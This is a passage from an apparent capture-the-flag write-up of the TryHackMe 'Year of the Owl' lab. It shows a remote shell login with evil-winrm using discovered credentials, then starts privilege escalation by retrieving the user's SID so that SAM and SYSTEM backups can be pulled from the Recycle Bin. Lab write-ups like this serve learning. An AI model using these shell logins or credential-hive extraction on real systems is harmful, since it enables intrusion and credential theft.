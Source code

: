 And I can login using Evil-Winrm:

```
┌──(ryan㉿kali)-[~/THM/Year_Of_The_Owl]
└─$ evil-winrm -u jareth -p sarah -i 10.10.174.131


Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Jareth\Documents> whoami
year-of-the-owl\jareth
*Evil-WinRM* PS C:\Users\Jareth\Documents> hostname
year-of-the-owl
```

We can grab the user.txt flag:

![yoto_user_flag.png](../assets/year_of_the_owl_assets/yoto_user_flag.png)

### Privilege Escalation

I got stuck here for ages, and had to take a peek at a writeup. On one hand this privilege escalation vector was a bit disapointing, but on the other hand it taught me something totally new, which is awesome.

Apparently the trick here was to check inside user Jareth's Recycle Bin, and inside we discover backups of SAM and SYSTEM.

So to do this first we'll need Jareth's SID, which we can get with `whoami /all`:

```
*Evil-WinRM* PS C:\users\jareth\Desktop> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== =============================================
year-of-the-owl\jareth S-1-5-21-1987495829-1628902820-919763334-1001
```
